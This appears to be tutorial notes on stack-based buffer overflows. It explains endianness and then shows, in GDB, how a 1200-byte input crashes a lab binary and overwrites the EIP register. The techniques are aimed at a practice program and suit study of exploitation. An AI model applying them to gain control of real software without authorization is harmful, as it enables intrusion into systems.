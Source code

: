 ## Endianness 

During load and save operations in registers and memories, the bytes are read in a different order. This byte order is called **endianness**. Endianness is distinguished between the **little-endian** format and the **big-endian** format. Big-endian and little-endian are about the order of valence. In big-endian, the digits with the **highest valence** are initially. In little-endian, the digits with the **lowest valence** are at the beginning. Mainframe processors use the big-endian format, some **RISC architectures**, minicomputers, and in TCP/IP networks, the byte order is also in big-endian format.

With the following example:
- Address: `0xffff0000`
- Word: `\xAA\xBB\xCC\xDD`


| **Memory Address**	    | **0xffff0000**    | **0xffff0001**    | **0xffff0002** | **0xffff0003** |
|---------------- | --------------- | --------------- | -------------- | ------------------ |
| Big-Endian	    | AA    | BB    | CC | DD |
| Little-Endian | DD | CC | BB | AA |

---

# Exploit 

## Take Control of EIP 

One of the most important aspects of a stack-based buffer overflow is to get the **Instruction Pointer** (**EIP**) under control, so we can tell it to which address it should jump. This will make the **EIP** point to the address where our **shellcode** starts and causes the CPU to execute it.

We can execute commands in GDB using Python, which serves us directly as input.

### Segmentation Fault

If we insert 1200 "U"s (hex "**55**") as input, we can see from the register information that we have overwritten the **EIP**. As far as we know, the **EIP** points to the next instruction to be executed.
```
zero@pio$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

```
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
```